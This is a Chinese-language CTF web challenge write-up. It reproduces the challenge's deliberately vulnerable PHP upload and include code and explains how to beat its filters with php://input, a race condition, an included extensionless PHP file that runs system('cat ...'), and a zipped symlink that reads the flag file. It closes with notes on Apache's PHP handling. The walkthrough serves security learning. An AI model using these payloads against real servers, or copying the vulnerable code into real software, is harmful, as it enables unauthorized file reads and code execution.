

通过备份文件泄露拿到
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
| <?php
error_reporting(0);
ini_set('open_basedir', '/var/www/html');
function autoload($page) {
if (stripos($_SERVER['QUERY_STRING'], 'flag') > 0) {
die('no flag flag flag flag !');
}
if (stripos($_SERVER['QUERY_STRING'], 'uploaded') > 0) {
die('no uploaded uploaded uploaded uploaded !');
}
if (stripos($_SERVER['QUERY_STRING'], '://f') > 0) {
die('no ://f ://f ://f');
}
if (stripos($_SERVER['QUERY_STRING'], 'ata') > 0) {
die('no ata ata ata');
}
if (stripos($_SERVER['QUERY_STRING'], '0') > 0) {
die('no 0 0 0');
}
if(file_exists("./includes/$page.php")) {
include "./includes/$page.php";
}
elseif(file_exists("./includes/$page")) {
include "./includes/$page";
}else{
echo "File is not exit ";
}
}
function download($adfile, $file){
$cert = 'N';
if(isset($adfile) && file_get_contents($adfile, 'r') === 'Yeah Everything Will Be Ok My Boss') {
echo "Welcome ! You Are Administrator !";
$cert = 'Y';
}else{
echo "error1";
}
if ($cert === 'Y'){
if (stripos($file, 'file_list') != false) die('error4');
if (stripos($file, 'file_list') >= 0) {
header('Content-Description: File Transfer');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename='. basename($file));
header('Content-Transfer-Encoding: binary');
header('Expires: 0');
header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
header('Pragma: public');
header('Content-Length: ' . filesize($file));
readfile($file);
}else{
die('error2');
}
}else{
echo 'error3';
}
}
if(!isset($_GET['page'])) {
$page = 'index';
}
else {
$page = $_GET['page'];
}
if (stripos($page, './') > 0) {
die('no ./ ./ ./ ./');
}
if (stripos($page, '://') > 0) {
die('no :// :// ://');
}
autoload($page);
if (isset($_GET[admin]) && isset($_GET[file])) {
if (stripos($_GET[admin], 'flag') > 0 || stripos($_GET[file], 'flag') > 0) {
die('not flag flag flag falg !');
}
if (strlen($_GET[file]) >= 38) {
die('too long');
}
download($_GET[admin], $_GET[file]);
}
?>
|
这个题还有一个上传点，要拿到upload.php。读文件的点在
- 这里可以用远程服务器写 echo -n “Yeah Everything Will Be Ok My Boss” >> index.html，然后访问读取
- 也可以php://input+Yeah Everything Will Be Ok My Boss
下面拿到download.php
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
| <?php
if (stripos($_SERVER['QUERY_STRING'], 'flag') > 0) {
die('no flag flag flag flag !');
}
if (!empty($_FILES)) {
$name= $_FILES["filename"]["name"];
$type= $_FILES["filename"]["type"];
$size= $_FILES["filename"]["size"];
$temp= $_FILES["filename"]["tmp_name"];
$error= $_FILES["filename"]["error"];
if (strlen($name) >= 6) {
die('name is too long !');
}
if (stripos($name, './') > 0) {
die('invalid parameter');
}
if (stripos($name, 'php') > 0) {
die('invalid parameter');
}
if (substr($name, -3, 3) !== 'zip' && substr($name, -3, 3) !== 'jpg' && substr($name, -3, 3) !== 'png') {
die('file can not upload ! ');
}
if ($error > 0)
die("Error uploading file! code $error.");
else
{
if($type !== "application/zip" || $size > 400)
{
die("Format not allowed or file size too big!");
}
else
{
if(file_exists('includes')){
move_uploaded_file($temp, "includes/uploaded/" .$name);
echo "Upload complete a!";
shell_exec('sh /var/www/html/includes/ ');
}elseif(file_exists('uploaded')){
move_uploaded_file($temp, "uploaded/" .$name);
echo "Upload complete!";
shell_exec('sh /var/www/html/includes/unzip.sh');
}
}
}
}else{
if(isset($_GET['step']) && strlen($_GET['step']) === 20) {
if (stripos($_GET['step'], 'lag') > 0) {
die('error');
}
if (stripos($_GET['step'], './') > 0) {
die('error');
}
if (stripos($_GET['step'], ' ') > 0) {
die('error');
}
if (stripos($_GET['step'], '/') > 0) {
die('error');
}
if (preg_match('/[^\w\d_ -]/si', $_GET['step'])) {
$_GET['step'] = preg_replace('/[^a-zA-Z0-9_ -]/s', '', $_GET['step']);
die('error');
}
passthru('cat ' . 'uploaded/' . $_GET['step']);
}else{
die();
}
}
?>
</body>
</html>
|
这段代码的大意是只能上传长度有限的代码，然后会进入
1
2
3
4
5
| }elseif(file_exists('uploaded')){
move_uploaded_file($temp, "uploaded/" .$name);
echo "Upload complete!";
shell_exec('sh /var/www/html/includes/unzip.sh');
}
|
用同样的手法读出unzip.sh
可以看到它是先解压压缩包然后一点一点的删掉。
所以第一种方式就是利用时间差条件竞争，这也是我队师傅用的方法。这里省略。
然后第二天看别人wp的时候。发现一个比较巧妙的方法，就是观察到sh并没有删除所有的文件，保留了没有后缀名的文件（rm -rf ./uploaded/.*并不是删除当前文件所有内容的命令）。所以可以上传一个没有后缀名的php然后用index.php的包含代码包含进来。
在zip中压缩一个clound文件如下所示（这里需要注意因为是include进来，所以cat后面的路径是flag和index.php的路径）
1
2
3
| <?php
system('cat flag/flag/flag/flag/flag/flag/flag.php');
?>
|
然后访问http://47.104.188.226:20001/index.php?uploaded&page=uploaded/clound
这个payload的构造很有意思巧妙的绕过了。
注意到flag是flag{CVE_SomeThing_aBout_gitLab}也就就说上述两种方法都应该是非预期。
在网搜一下gitlab的历史漏洞注意到一个很有意思的漏洞通过软连接来读文件，隐隐感觉如果用这个姿势来做是一个很优雅的解法。
首先经过一次失败的实验发现软连接是相对的路径的。也就说建立软连接的时候要把flag的位置和软连接的位置摆好。假设/var/www/html为根目录
flag的位置/var/www/html/flag/flag/flag/flag/flag/flag/flag.php
上传的位置
/flag/flag/flag/flag/flag/flag/flag.php
在web目录下
1
2
3
4
5
| mkdir -p flag/flag/flag/flag/flag/flag/
mkdir -p includes/uploaded
echo "flag" >> flag/flag/flag/flag/flag/flag/flag.php
cd includes/uploaded
ln -s ../../flag/flag/flag/flag/flag/flag/flag.php aaaaabbbbbcccccddddd
|
然后压缩软连接，上传如图

从图中我们也能清楚看到软连接是相对路径
最后访问http://47.104.188.226:20001/includes/uploaded/aaaaabbbbbcccccddddd
即可看到flag
也许你注意把软连接弄到20个字符，是因为在做的时候我犯了个错误，我以为把软连接传上去apache也会跟着软连接的指向去解析php，然后结合一下代码才能利用。

去读文件但其实不是这样的，直接访问软连接就可以看到内容。结合这几天的apache的一些知识，我想给出自己的答案。
apache解析php的原理
首先一个常识是Apache自身并不能解析php。Apache是一个模块化程序，这这就意味着服务器只包括最基本的功能，其他的拓展的功能可以加载模块实现。Apache对于php的解析，就是通过众多Module中的php Module来完成的。
这个php模块会随着apache的启动被load进来。可以通过apachectl -M来查看
那么apache是怎么判断这个文件是不是应该交给php模块处理的呢？答案是通过MIME类型。

linux上有个/etc/mime.types它是mime-support包的一部分，这里面记录了所有的MIME类型。
当客户端请求一个文件时,如果后缀在这个列表里,那么apache就返回对应的content-type给浏览器，如果不在里面apache这个表里面则直接返回文件的内容（不返回content-type）。

当然这个你面有关php的是被注释掉了。不过在/etc/apache2/mods-enabled/php7.0.conf有中有这样一条等价配置。
它表示一旦匹配到php|php3|php4|php5|php7|pht|phtm这种东西则强制执行application/x-httpd-php这种类型所对应的处理器（php7_moudle）。
回头看刚才上传软连接没有后缀，所以apache不可能认识，于是他读出原本的内容（flag.php）然后直接返回并不带任何content-type，有图为证。

最后
最后自己的思考并不保证正确，如果出错还请指正。
参考
https://chybeta.github.io/2018/01/18/%E8%B5%9B%E5%8D%9A%E5%9C%B0%E7%90%83%E6%9D%AF%E5%B7%A5%E4%B8%9A%E4%BA%92%E8%81%94%E7%BD%91%E5%AE%89%E5%85%A8%E5%A4%A7%E8%B5%9B-Web-writeup/#more
https://paper.seebug.org/104/
http://drops.chamd5.org/#!/drops/315.Apache%E5%AE%89%E5%85%A8%E9%85%8D%E7%BD%AE
http://03i0.com/2017/10/19/Apache%E5%AE%89%E5%85%A8%E6%80%BB%E7%BB%93/